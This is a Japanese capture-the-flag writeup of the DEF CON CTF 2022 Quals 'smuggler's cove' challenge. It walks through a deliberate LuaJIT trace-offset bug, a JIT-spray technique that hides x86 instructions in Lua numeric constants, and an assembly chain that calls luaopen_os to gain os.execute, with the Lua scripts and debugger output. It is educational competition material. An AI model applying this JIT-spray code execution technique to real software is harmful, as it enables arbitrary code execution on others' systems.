


# DEF CON CTF 2022 Quals参戦記録: smuggler's coveの解き方(writeup)

初めまして、Team Enuの青島 達大です。
普段は研究職として、プログラミング言語の理論やプログラム解析手法に基づく脆弱性発見技術の研究開発に取り組んでいます。
安全なサイバー空間を実現すべく、サイバー攻撃で悪用される脆弱性の根絶を目指して、日々精進しております。
今回は、今年の5月末に開催されたDEF CON CTF 2022 QualsにTeam Enuの一員として参加したので、そちらの参戦記録も兼ねて、当日解けたsmuggler's coveの解き方(writeup)について書きたいと思います。

NTTセキュリティ・ジャパンを始め、NTTグループ横断でCTFに興味のある社員を集め、Team Enuとして毎年DEF CON予選に参加しています。
今年の様子は、NFLabsの市岡さんに記事 <https://blog.nflabs.jp/entry/2022/06/08/092451>を書いていただきました。
CTFが初めての方でも、雰囲気を味わえると思うので、是非、ご覧ください!!


今回は、その中でもsmuggler's coveという問題の解き方を紹介したいと思います。

<https://quals.2022.nautilus.institute/teams/176.html>

スコアボードの統計情報を見ると、ざっと解くのに15時間くらいかかってますね。。。
今年は問題のカテゴリーが意味を成さず、そのほとんどが"quals"でしたが、この問題は"shellcoding"寄りの"pwn"だと思います。
pwn問題は一般に、脆弱な(悪用可能なバグを含む)プログラムが与えられて、そこを攻略することにより、普通の利用方法では入手できない"フラグ"を取得することを要求される問題です。
shellcoding問題もフラグを取得するのが目的であることに変わりありませんが、実際にフラグを取得しようとする小さなコード本体を賢く作り込むことが要求される問題です。

# 本記事の流れ
1. smuggler's coveを解いた過程を紹介(競技中に試行錯誤しつつ寄り道した部分は省略します)
    1. 問題の構成と脆弱性の説明
    2. エクスプロイトの戦略と前提知識の整理
    3. エクスプロイトの開発
2. LuaJITの仕様と実装の補足
    1. NaN Tagging表現
    2. 利用した`luaopen_os`に関する注意
3. 苦労したところについて

なお、本記事で利用するソースコードは、Team EnuのGitHub (<https://github.com/Team-Enu/writeup>)で公開していますので、適宜ご覧ください。

# 1-1. 問題の構成と脆弱性の説明

## 問題の構成
問題のファイルは、GitHub(<https://github.com/Nautilus-Institute/quals-2022/tree/main/smugglers-cove>)の`./smugglers_cove_dist.tar.gz`からダウンロードできます。
当日の問題文(<https://quals.2022.nautilus.institute/challenges/3.html>)は、

> Aye matey you got some fine looking lua cargo here, mind if we inspect it?

でした。Luaというプログラミング言語が関係しそうですね。
なお、当日は専用のWebインターフェイス (GitHubにある`./server`と`./launcher`以下)が用意されていて、Linux端末やプログラムを直接操作できませんでした。
本記事では、その部分の再現は除いて、本質的な部分を説明します。
(これは後述するように、操作できる文字数制限があり、その制限をLinux端末経由で回避する多段構成の手法を阻止するため、と思ってます)

展開してみると、中身は次の通りでした。

- `./cove`: 攻略対象のプログラムの実行可能ファイル(Linux x86-64)
  - `./cove.c`: C言語で書かれたソースコード
  - `./libluajit-5.1.so.2`: 依存するライブラリ(LuaJIT)のファイル
- `./dig_up_the_loot`: フラグを表示するプログラムの実行可能ファイル(Linux x86-64)
  - `./dig_up_the_loot.c`: C言語で書かれたソースコード
- `Dockerfile`, `./packages.txt`, `./run.sh`: 問題を動かすコンテナーの構成ファイルと起動スクリプト

(当日もそこまで疑いませんが、)基本的にソースコードのファイル名と同一の実行可能ファイルがあれば、互いに対応するものとなります。
`./dig_up_the_loot`がフラグを表示するプログラムであることは、ソースコードを見れば、

<!-- ```c
    puts("Shiver me timbers! Thar be your flag: FLAG PLACEHOLDER");
``` -->


となっており、頑張れば、フラグを表示してくれることが分かるからです。
実行してみれば、

```
# ./dig_up_the_loot
Avast ye missing arguments: ./dig_up_the_loot x marks the spot
# ./dig_up_the_loot x marks the spot
Shiver me timbers! Thar be your flag: FLAG PLACEHOLDER
```

となるので、頑張って`./dig_up_the_loot`を引数列 `{"x", "marks", "the", "spot", NULL}`込みで実行させることがゴールになります。
ただ、`./Dockerfile`を見てみると、

<!-- ```Dockerfile
ENTRYPOINT ["/challenge/cove"]
``` -->


となっているので、直接実行できるわけではありません。

## `./cove`のインターフェイス
`./cove`はLuaJITという、Just-In-Timeコンパイラー方式のプログラミング言語処理系を利用して、Luaというプログラミング言語のスクリプトファイルを実行するプログラムです。
以降、解説で必要なところはソースコードを参照しつつ、適宜解説しますね。
`./Dockerfile`が配布されたので、コンテナーを用意してから実行しても良いのですが、ちょっと面倒なので、`LD_PRELOAD`を使って動かしましょう。

```
# ./cove ./hello.lua
./cove: error while loading shared libraries: libluajit-5.1.so.2: cannot open shared object file: No such file or directory
# LD_PRELOAD=./libluajit-5.1.so.2 ./cove ./hello.lua 
Hello, world!
```

ここで、`./hello.lua`は、次のようなLuaスクリプトです。

<!-- ```lua
print("Hello, world!")
``` -->


世界へ向けてあいさつできるようになりましたね。

## `./cove`の制限と脆弱性
競技時間が48時間でなければ、普通にLuaプログラミングとして遊んでもいいのですが、時間が圧倒的に足りないので、脆弱性を発見して攻略しましょう。
ソースコード `./cove.c`の`init_lua`関数をみると、Luaスクリプトからは`cargo`関数と`print`関数しか使えないことが分かります。
なんと、外部プログラムを実行することができません！
なので、なんとかして、`./dig_up_the_loot x marks the spot`を実行する必要があります。
`cargo`関数は今回の問題のために作られたもので、実装は`debug_jit`関数にあります。
めっちゃ怪しいですね。
ここは少し詳しく見てみましょうか。

> (余談) 当日のお話になりますが、私が作業に取り掛かった頃には、すでにチームメンバーたちが`./cove`の解析をしてくれてました。(サボったわけではありません。前日には、「初日の最初は問題が少ないから、少し遅めに開始しても良いのでは？」と言われたからです。まあ、皆さん最初から始めてたようですが。。。)当日はノリと勢いと感覚でサクッと読んで攻略を試みるので、ここまでゆっくり理解することはないと思います。が、今後につながるように必要な問題はしっかり理解する必要があると思うので、その練習も兼ねて、頑張ってみましょう！

`libluajit-5.1.so.2`というファイル名から、仕様としてはLua 5.1に従っているものと思われます。
なので、マニュアル(<https://www.lua.org/manual/5.1/manual.html>)を片手にソースコードを読んでみましょう。

<!-- ```c
int debug_jit(lua_State* L) {
    if (lua_gettop(L) != 2) {
        return luaL_error(L, "expecting exactly 1 arguments");
    }
    luaL_checktype(L, 1, LUA_TFUNCTION);

    const GCfunc* v = lua_topointer(L, 1);
    if (!isluafunc(v)) {
        return luaL_error(L, "expecting lua function");
    }

    uint8_t offset = lua_tointeger(L, 2);
``` -->


`lua_gettop`関数はLua処理系のスタックに積まれているオブジェクトの数を返します。
細かいところは省略しますが、ちょうど2個の引数を渡しているかどうかを検査しています。
(エラーメッセージは、、、誤植ですかね)
そして、`luaL_checktype`関数を使って、1番目の引数が関数であるか(種別のタグ `LUA_TFUNCTION`を持つか)どうかを検査しています。
`lua_topointer`関数で1番目の引数から、関数を表現する内部のデータ構造を取り出します。
そして、Luaスクリプトで定義された関数(以下、Lua関数)かどうかを検査してます(`isluafunc`)。

次に、2番目の引数を整数に変換しています(`lua_tointeger`)。
勝手に整数を受け取るものと仮定して変換しているように見えますが、マニュアルを読むと、整数か整数として解釈可能な文字列でない場合、`0`を返しますので、ここを細工しても攻略のヒントにはなりません。
以上より、関数 `f`をスクリプト中で定義して、`cargo(f, 4)`のように呼び出せばよいことが分かります。

続きを読み進めましょう。

<!-- ```c
    uint8_t* bytecode = mref(v->l.pc, void);

    uint8_t op = bytecode[0];
    uint8_t index = bytecode[2];

    GCtrace* t = getTrace(L, index);

    if (!t || !t->mcode || !t->szmcode) {
        return luaL_error(L, "Blimey! There is no cargo in this ship!");
    }
``` -->


ここからはLua 5.1の仕様でなく、LuaJIT特有のインターフェイスも利用しています。
競技時点の最新コミット(<https://github.com/LuaJIT/LuaJIT/tree/1b8d8cabdcc4f1977dc8c51a82074653078d870b>)を参考にします。
(詳しくは、Team EnuのGitHubにある`gen-exploit.py`で書いたLuaJITのバージョンを特定する部分のコメントをご参考ください)

関数 `f`はLua関数であることが分かっているので、`mref`マクロを使って、内部構造 `GCfunc`から`GCfuncL L`を選択して(<https://github.com/LuaJIT/LuaJIT/blob/1b8d8cabdcc4f1977dc8c51a82074653078d870b/src/lj_obj.h#L453-L472>)、プログラムカウンター `pc`に対応するバイトコード(Lua処理系の内部で使われている機械語) `bytecode`を取り出します。
`bytecode`の中身を理解する必要はなく、`./cove.c`で実装されている`getTrace`関数で`GCtrace`(<https://github.com/LuaJIT/LuaJIT/blob/1b8d8cabdcc4f1977dc8c51a82074653078d870b/src/lj_jit.h#L254-L288>)型のオブジェクトを取り出します。
詳細は省略しますが、ざっくり言うと、関数 `f`に対応したJITコード(の先頭)を取り出したことになります。

> (補足) LuaJITはTracing JITであり、自動的にある一定回数以上実行されるプログラム中の流れ(トレース)を、その実行時の文脈に応じて最適化する言語処理系の実装になります。よって、トレースがひとつ取れたとしても、関数全体のJITコードがすべて得られるとは限りません。いやあ、当日はここに気付くの遅れて、苦労しましたね...

`GCtrace`の中で、必要なフィールドだけをみると、定義は次の通りになります。

<!-- ```c
/* Trace object. */
typedef struct GCtrace {
  GCHeader;
  /* ... */
  MSize szmcode;  /* Size of machine code. */
  MCode *mcode;   /* Start of machine code. */
  /* ... */
} GCtrace;
``` -->


よって、トレース `t`が存在して、そのコードのサイズが`0`でなく(`!t->szmcode`)、コード本体が存在すること(`!t->mcode`)を検査していることが分かります。
戻って、最後まで読み進めます。

<!-- ```c
    printf("INSPECTION: This ship's JIT cargo was found to be %p\n", t->mcode);

    if (offset != 0) {
        if (offset >= t->szmcode - 1) {
            return luaL_error(L, "Avast! Offset too large!");
        }

        t->mcode += offset;
        t->szmcode -= offset;

        printf("... yarr let ye apply a secret offset, cargo is now %p ...\n", t->mcode);
    }

    return 0;
``` -->


関数の2番目の引数 `offset`が`0`でなく、それが最後の1バイトを除いて、JITコード中を指していれば(`offset >= t->szmcode - 1`で抜けないならば)、**コードのアドレスを`offset`バイトだけずらして、コードのサイズを`offset`バイトだけ小さくする**処理を行うことになります。
しかも同時に、ずらす前後のアドレスも出力してくれます。
ただこれは当日のWebインターフェイスを想定すると、手元でのデバッグを楽にするためのヒントで、この値を実際の攻略中に活用するのは困難だと思います。

「...え？」ってなりますが、これがまさに脆弱性となります。

## 脆弱性の仕組み
ここまでの理解をまとめて、とりあえずクラッシュさせることができるLuaスクリプト `./test.lua`を作りました。
(ソースコードはTeam EnuのGitHubから入手可能です)

<!-- ```lua
function f()
  print("Hello, world!")
end
f()
f()
cargo(f, 4)
f()  -- expect crash
``` -->


トレースが存在するように、関数 `f`を定義したら、2回実行しています。
LuaJITのドキュメント(<https://luajit.org/ext_jit.html>)をみると、ソースコード `./cove.c`の`set_jit_settings`関数には`jit.opt.start('hotloop=1');`があるので、2回実行すれば、JIT最適化がかかってトレースが作られることが分かります。
とりあえず実行してみましょう。

```
# QEMU_GDB=1234 LD_PRELOAD=./libluajit-5.1.so.2 ./cove ./test.lua 
Hello, world!
Hello, world!
INSPECTION: This ship's JIT cargo was found to be 0x3ff8b5ff12
... yarr let ye apply a secret offset, cargo is now 0x3ff8b5ff16 ...
```

デバッガーでクラッシュを捉えることができます。

```
gef➤  c
Continuing.
Program received signal SIGILL, Illegal instruction.
0x0000003ff8b5ff16 in ?? ()
────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x3ff8b5ff0f                  add    dh, bh
   0x3ff8b5ff11                  add    BYTE PTR [rcx-0x39], al
   0x3ff8b5ff14                  xchg   BYTE PTR [rax], bh
 → 0x3ff8b5ff16                  int1   
   0x3ff8b5ff17                  (bad)  
   0x3ff8b5ff18                  inc    DWORD PTR [rcx]
   0x3ff8b5ff1a                  add    BYTE PTR [rax], al
   0x3ff8b5ff1c                  add    BYTE PTR [rcx-0x73], cl
   0x3ff8b5ff1f                  sahf   
```

x86-64では`int1`命令はデバッグ例外を出すので、不正命令例外で止まりましたね。
出力されたログを参考にすれば、本来は、

```
gef➤  x/3i 0x3ff8b5ff12
   0x3ff8b5ff12:        mov    DWORD PTR [r14-0xec8],0x1
   0x3ff8b5ff1d:        lea    rbx,[r14+0x2c80]
   0x3ff8b5ff24:        movsd  xmm7,QWORD PTR [r14+0x3850]
```

という機械語の列を実行するはずですが、意図的に、

```
gef➤  x/3i 0x3ff8b5ff16
=> 0x3ff8b5ff16:        int1   
   0x3ff8b5ff17:        (bad)  
   0x3ff8b5ff18:        inc    DWORD PTR [rcx]
```

という機械語の列を実行するように仕向けることができました。
では、これを使えば、攻略ができるでしょうか？

# 1-2. エクスプロイトの戦略と前提知識の整理

## 脆弱性の詳細とエクスプロイトのポイント
Lua関数の最初のJITトレース中に限られますが、命令ポインターを任意にずらすことができるのは、Return-Oriented Programmingを彷彿とさせますね。
もちろん原理は同じです。
ROPと異なり今回は、JITトレースを完全にではありませんが、与えるLuaスクリプト経由で調整することができます。
うまく活用できないでしょうか？

昔から知られている方法として、"Randomization can't stop BPF JIT spray" (Reshetova et al., BlackHat EU 2016, <https://www.blackhat.com/docs/eu-16/materials/eu-16-Reshetova-Randomization-Can%27t-Stop-BPF-JIT-Spray-wp.pdf>)で紹介された手法があります。
今回の問題に合わせて説明します。

x86-64の命令は、命令ごとに長さが違います。
例えば、64bitレジスタ `rax`へ64bitの定数 `0x123456789abcdef0`を代入する命令は、次のように表現されます。

```
   0    48b8f0debc9a78563412    movabs rax,0x123456789abcdef0
```

さて、これを1バイトずつずらしたらどうなるでしょうか？

```
   1    b8f0debc9a          mov    eax,0x9abcdef0
   2    f0debc9a78563412    lock fidivr WORD PTR [rdx+rbx*4+0x12345678]
   3    debc9a78563412      fidivr WORD PTR [rdx+rbx*4+0x12345678]
   4    bc9a785634          mov    esp,0x3456789a
   5    9a                  (bad)
   6    7856                js     0x5d
   7    56                  push   rsi
   8    3412                xor    al,0x12
```

途中で変な命令がたくさんでてきますが、**Luaスクリプトで数値を扱うようにコーディングすれば、定数部分は調整できるので、任意の機械語を8バイト以下で埋め込めることが分かります。**
これは超絶便利なエクスプロイトの要素になります。

例えば、64bit定数 `0xcccc050f3cb0c031`を代入する命令であれば、2バイトずらすと次のような機械語を実行させることができます。

```
   2    31c0                xor    eax,eax
   4    b03c                mov    al,0x3c
   6    0f05                syscall
   8    cc                  int3
   9    cc                  int3
```

システムコールの60番(`exit`)を実行できることになります(システムコールの番号は、<https://chromium.googlesource.com/chromiumos/docs/+/HEAD/constants/syscalls.md>を参照)。
定数部分を工夫すれば、システムコールの番号も調整できそうですし、先ほどの6バイトずらしたときの命令に条件付きジャンプ命令 `js 0x5d`もありました。
こんな感じの代入命令を複数用意して、その間をジャンプ命令で飛び続ければ、任意の命令を実行できるようになります！
これで、`./dig_up_the_loot x marks the spot`を実行させる戦略が見えてきましたね!!

ただし、一箇所注意する制約があります。
ソースコード `./cove.c`を読むと、

<!-- ```c
#define MAX_SIZE 433
/* ... */
void run_code(lua_State* L, char* path) {
    const size_t max_size = MAX_SIZE;
    /* ... */
    if (size > max_size) {
        puts("Too large");
        exit(-1);
        return;
    }
``` -->


とありますので、入力できるLuaソースコードは433バイト以内となります。
うーん、これは厳しいですね。。。

## どうやって定数を代入する命令を生成させるの??
JIT最適化がされるLuaのスクリプト経由で、`movabs rax, ...`のような定数を使う命令を生成させて、かつ複数の命令の間を適切にジャンプしつつ、外部プログラムを実行させる処理を実現するのは大変そうに思えます。
まずは、どうやって定数を使う命令を出力させることができるか、考えてみましょう。

細かい過程や試行錯誤は省略しますが、競技中はチームメンバー同士で、SlackやCTFNoteを使いながら議論をして、次のようなスクリプト `./test2.lua` (Team EnuのGitHubから入手可能)を使えば良いことが分かりました。
(ここまででざっと6時間ぐらい掛かってます。。。wOw)

<!-- ```lua
a={}function f(a,b)
a[0x1123456789abcd0]=1
a[0x1dcba9876543210]=2
print(b)end
f(a,"")f(a,"")cargo(f,4)f(a,"")
``` -->


バイト数制約が気になってきたので、なるべく減らせるようにフォーマットしてます。
デバッガーでアタッチして実行してみると、

```
INSPECTION: This ship's JIT cargo was found to be 0x3ffb20fe8e
... yarr let ye apply a secret offset, cargo is now 0x3ffb20fe92 ...
```

と表示されてクラッシュするので、JITトレースを覗いてみましょう。

```
gef➤  c
Continuing.
Program received signal SIGILL, Illegal instruction.
0x0000003ffb20fe92 in ?? ()
...
gef➤  x/200i 0x3ffb20fe8e
   0x3ffb20fe8e:        mov    DWORD PTR [r14-0xec8],0x1
   0x3ffb20fe99:        lea    r15,[r14+0x2c80]
   0x3ffb20fea0:        movsd  xmm7,QWORD PTR [r14+0x3f18]
   0x3ffb20fea9:        movsd  xmm6,QWORD PTR [r14+0x3f08]
   0x3ffb20feb2:        movsd  xmm5,QWORD PTR [r14+0x3ee8]
   0x3ffb20febb:        movsd  xmm4,QWORD PTR [r14+0x3f58]
   0x3ffb20fec4:        movsd  xmm3,QWORD PTR [r14+0x3f88]
   0x3ffb20fecd:        rorx   rbx,QWORD PTR [rdx],0x2f
   0x3ffb20fed3:        cmp    bx,0xfff4
   0x3ffb20fed7:        jne    0x3ffb20004c
   0x3ffb20fedd:        shr    rbx,0x11
   0x3ffb20fee1:        cmp    DWORD PTR [rbx+0x34],0x1
   0x3ffb20fee5:        jne    0x3ffb20004c
   0x3ffb20feeb:        mov    rbp,QWORD PTR [rbx+0x28]
   0x3ffb20feef:        movabs rdi,0x437123456789abcd       ; <- `a[0x1123456789abcd0]=1`の添字部分より
   0x3ffb20fef9:        cmp    rdi,QWORD PTR [rbp+0x8]
   0x3ffb20fefd:        jne    0x3ffb20004c
   0x3ffb20ff03:        cmp    QWORD PTR [rbx+0x20],0x0
   0x3ffb20ff08:        jne    0x3ffb20004c
   0x3ffb20ff0e:        movsd  QWORD PTR [rbp+0x0],xmm3
   0x3ffb20ff13:        movabs rdi,0x437dcba987654321       ; <- `a[0x1dcba9876543210]=2`の添字部分より
   0x3ffb20ff1d:        cmp    rdi,QWORD PTR [rbp+0x20]
   0x3ffb20ff21:        jne    0x3ffb200050
...
```

じっくり読んでみると、次のように変換されることが分かります。


つまり、`AA`〜`FF`までの6バイトを任意に埋め込むことができます。
今回はこのパターンを使って、エクスプロイトを組んでみましょう。

> (補足) この変化の仕方を見て、お気づきの方も多いかと思いますが、この方法は無駄が多いですね。ただ競技中は、こうやって解いてしまったので、今回はここから解説したいと思います。2節で、この変化は結局何を意味していたのか説明しますね。

## どうやって外部プログラムを実行する？
外部プログラムを実行する`execve`システムコールを直接実行できれば良かったのですが、引数を4個も用意しないといけないわけですし、バイト数制約に引っかかってできませんでした。。。
(ここでまた4時間ぐらいかかってしまいました)
なので今回は、`libluajit-5.1.so.2`が提供する`luaopen_os`関数を呼び出して、`os.execute("./dig_up_the_loot x marks the spot")`をLuaスクリプトから呼び出せるようにしましょう。
先ほどの解析では、`cove`関数と`print`関数しか呼び出せない状況だったことに注意してください。

Lua 5.1のマニュアル(<https://www.lua.org/manual/5.1/manual.html>)によれば、`os.execute`関数で任意のシェル経由で外部コマンドを実行できるので、外部プログラムを引数込みで簡単に呼べるようになります。
`luaopen_os`関数の詳細は1-3節と2-2節で解説します。

## まとめ
長い長い解析を終えて、ようやくエクスプロイトの流れが決まりました。

1. `luaopen_os`関数を呼び出して安全に戻る命令列を構成する。つまり、ずらす前の正規のJITトレースのエントリーポイントへジャンプする命令を最後に追加する。
2. 命令列を分割して、ジャンプ命令を挟みながら、`a[0x1GFFEEDDCCBBAA0]=1`というパターンの列へ変換する
3. `cove(f, XX)`のオフセット `XX`を計算して、呼び出すように追加する
4. スクリプトの最後に`os.execute("./dig_up_the_loot x marks the spot")`を追加する
5. スクリプトを実行するだけで、外部プログラムが実行され、フラグが表示されれば、攻略完了!!

# 1-3. エクスプロイトの開発

## ステップ 1: `luaopen_os`を呼び出して安全に戻る命令列の構成
`luaopen_os`は、ソースコード(<https://github.com/LuaJIT/LuaJIT/blob/1b8d8cabdcc4f1977dc8c51a82074653078d870b/src/lib_os.c#L287>)をみると、

<!-- ```c
LUALIB_API int luaopen_os(lua_State *L)
{
  LJ_LIB_REG(L, LUA_OSLIBNAME, os);
  return 1;
}
``` -->


となっており、`lua_State *L`に`os`というLuaライブラリを登録する関数になります。
`lua_State *L`はソースコード `./cove.c`の`init_lua`関数で初期化して、`run_code`関数へ渡されるオブジェクトそのものを取れば良いです。
詳細は、Team EnuのGitHubにある`gen-exploit.py`中のコメント `7)`と`8)`を参照してほしいのですが、`lua_State *L`はJITトレースを呼び出したときには`rbp`レジスタに入っていることが分かります。

さすがに6バイト以内で実現するのは無謀なので、`a[0x1GFFEEDDCCBBAA0]=1`から生成された定数代入命令の間をジャンプ命令で上手く飛び越えつつ、実行する必要があります。
そこで2バイトのジャンプ命令を使います。

```
   0    eb24                jmp    0x26
```

1バイト目の`0xeb`は、`jmp`命令であることを示すので固定ですが、次の1バイト `0x24`は、`jmp`命令の次の命令のアドレスから何バイト分飛び越えるべきかを指定します。
よって、最後の2バイトはジャンプ命令で消費されるので、4バイト以内の命令を使って構成する必要があります。
ちなみに、4バイト未満であれば、`0x90`(`nop`)で埋めておけば大丈夫です。

天下り的ですが、例えば次のような命令列を設計できます。

<!-- ```python
source = [
  # (1) エクスプロイト中に使うレジスタを書き換えてしまうので、後で安全に戻れるようにスタックへ保存しておきます
  "push rbp; push rdx; push rdi; push rcx;",
  # (2) `lua_State *L`のアドレスはレジスタ `rbp`に入っていたので、`rdi`へコピーします
  #     `rdi`に入れておけば、後で関数を呼ぶときに、第1引数として使われることがお約束(呼び出し規約)として決まってます
  "mov rdi, rbp",
  # (3) `L.glref`の値を読み出して、`rbp`へコピーします
  "mov rbp, [rbp+0x10]",
  # (4) さらにそこから`global_State.allocf`の値を読み出して、`rbp`へコピーします
  "mov rbp, [rbp]",
  # (5) `allocf`に格納されている関数ポインターの値から`luaopen_os`のアドレスへ変換するための定数を作ります
  #     差がちょうど0x6310バイト固定なので、`rcx`が`0x6310`となるように作ります
  "xor ecx, ecx; xor edx, edx",
  f"mov cl, {(addrof_luaopen_os - addrof_lua_state_glref_allocf)>>8:#x}",
  f"mov dl, {(addrof_luaopen_os - addrof_lua_state_glref_allocf)&0xff:#x}",
  "shl ecx, 8",
  "add ecx, edx",
  # (6) `luaopen_os`のアドレスを計算します
  #     先ほど作った`rcx == 0x6310`を足すだけです
  "add rbp, rcx",
  # (7) `luaopen_os`を呼び出します
  #     `rbp`が`luaopen_os`のアドレスで、`rdi`は(2)で`lua_State *L`の値となっているので、
  #     `luaopen_os(L)`を実行することになります
  "call rbp",
  # (8) 書き換えてしまったレジスタをスタックから復元します
  "pop rcx; pop rdi; pop rdx; pop rbp",
  # ずらす前のJITトレースの本来のエントリーポイントへジャンプする命令が続きます(後述)
]
``` -->


1ステップずつ解説はしませんが、大まかな`lua_State *L`からの構造を図で示します。


まずは、(3)と(4)ですが、`lua_State *L`から`0x10`バイトずれたところに`global_State *glref`があり(<https://github.com/LuaJIT/LuaJIT/blob/1b8d8cabdcc4f1977dc8c51a82074653078d870b/src/lj_obj.h#L685-L700>)、`global_State *glref`から`0x00`バイトずれたところに`allocf`があります(<https://github.com/LuaJIT/LuaJIT/blob/1b8d8cabdcc4f1977dc8c51a82074653078d870b/src/lj_obj.h#L630-L660>)。
`allocf`の値は、`libluajit-5.1.so.2`中の関数へのポインターとなります(`addrof_lua_state_glref_allocf`)。
ライブラリファイルには情報が残っていませんが、`./cove`が呼び出す`luaL_newstate`のソースコードを読む感じ、おそらく`mem_alloc`を指していると思います(<https://github.com/LuaJIT/LuaJIT/blob/1b8d8cabdcc4f1977dc8c51a82074653078d870b/src/lib_aux.c#L327-L344>)。

最後に、(5)で使った`addrof_luaopen_os`と`addrof_lua_state_glref_allocf`の調べ方は、`./gen-exploit.py`のコメント `2)`〜`5)`をご参照ください。
複数命令に渡って足し算を行っているのは、4バイト以下で表現する必要があるからです。
（あまり賢くない感じがしますが...よりスマートなやり方が思いついたら、教えてくださいね)

## 命令列の間のジャンプオフセットの計算
あとは、命令列の間を正しく飛び越えるためのオフセットを計算する必要があります。
詳しくは省略しますが、とりあえずオフセットを`0`にして、ソースコードを一回生成します。
それを実行してみて、途中でクラッシュしたら、JITトレースの逆アセンブル結果を読み出して、命令列の間のオフセットを計算して、ソースコードを生成し直します。
`luaopen_os`を正しく呼び出して、安全に戻ることができれば、攻略が完成するはずです。


この作業、一見単純に見えてちょっと面倒です。
ちょっと難しいので省略しますが、Team EnuのGitHubにある`./gen-exploit.py`中のコメント `# Trick for faster jump offset convergence`で示した通り、定数値の一部(添字の`G`の部分)にちょっとした細工をしないと、ずっと収束しないパターンが競技中に見られました。
もしここをスマートかつ合理的に解けるよ！って方がいたら、是非教えてください!!

## PWNED!!
<!-- ```
# python3 ./gen-exploit.py > ./exploit.lua 
# QEMU_GDB=1234 LD_PRELOAD=./libluajit-5.1.so.2 ./cove ./exploit.lua 


INSPECTION: This ship's JIT cargo was found to be 0x3fe352fd4e
... yarr let ye apply a secret offset, cargo is now 0x3fe352fda8 ...
qemu-x86_64: QEMU: Terminated via GDBstub
# python3 ./gen-exploit.py --disasm ./disasm.txt > ./exploit.lua 
# QEMU_GDB=1234 LD_PRELOAD=./libluajit-5.1.so.2 ./cove ./exploit.lua 


INSPECTION: This ship's JIT cargo was found to be 0x401db8fd54
... yarr let ye apply a secret offset, cargo is now 0x401db8fdae ...
qemu-x86_64: QEMU: Terminated via GDBstub
# python3 ./gen-exploit.py --disasm ./disasm.txt > ./exploit.lua 
# QEMU_GDB=1234 LD_PRELOAD=./libluajit-5.1.so.2 ./cove ./exploit.lua 


INSPECTION: This ship's JIT cargo was found to be 0x403808fd4e
... yarr let ye apply a secret offset, cargo is now 0x403808fda8 ...
qemu-x86_64: QEMU: Terminated via GDBstub
# python3 ./gen-exploit.py --disasm ./disasm.txt > ./exploit.lua 
# QEMU_GDB=1234 LD_PRELOAD=./libluajit-5.1.so.2 ./cove ./exploit.lua 


INSPECTION: This ship's JIT cargo was found to be 0x3ffd2ffd54
... yarr let ye apply a secret offset, cargo is now 0x3ffd2ffdae ...

ERROR: ld.so: object './libluajit-5.1.so.2' from LD_PRELOAD cannot be preloaded (cannot open shared object file): ignored.
bind: Address in use
qemu: could not open gdbserver on 1234
# LD_PRELOAD=./libluajit-5.1.so.2 ./cove ./exploit.lua 


INSPECTION: This ship's JIT cargo was found to be 0x3fd39bfd54
... yarr let ye apply a secret offset, cargo is now 0x3fd39bfdae ...

ERROR: ld.so: object './libluajit-5.1.so.2' from LD_PRELOAD cannot be preloaded (cannot open shared object file): ignored.
Shiver me timbers! Thar be your flag: FLAG PLACEHOLDER
# 
``` -->

4回繰り返すと収束して、攻略に成功しました。やったね!!
具体的なやり方は、Team EnuのGitHubにある`./gen-exploit.py`のコメントを参考にしてください。
(すみません、当日のWebインターフェイスで攻略に成功したタイミングのスクショを撮るのを忘れました...)

# 2-1. NaN Tagging表現
一通り攻略できたので、謎が残った部分を少し振り返ってみましょう。
1-2節で示した変換は、結局どういう意味だったのでしょうか。
ポイントは、64bit CPU上で動くLuaJITが、NaN Taggingという方式でオブジェクトを表現しているところにあります。

NaN Taggingとは、IEEE 754というフォーマットで表現される浮動小数点数の仕組みを利用して、あらゆるオブジェクトと数値を効率よく単一の64bitで表現する技法のことです。
LuaJITで有名になった手法ですね(<http://lua-users.org/lists/lua-l/2009-11/msg00089.html>)。
IEEE 754の表現を復習すると、64bit浮動小数点数(C言語でいう`double`型の数値)は、次のように表現されます。


52bit目〜62bit目までがすべて1であり、下52bitが0以外であれば、NaN (Not a Number)という数値でないものを示します。
つまり、残りの53bitのほとんどを無駄にしているわけです。
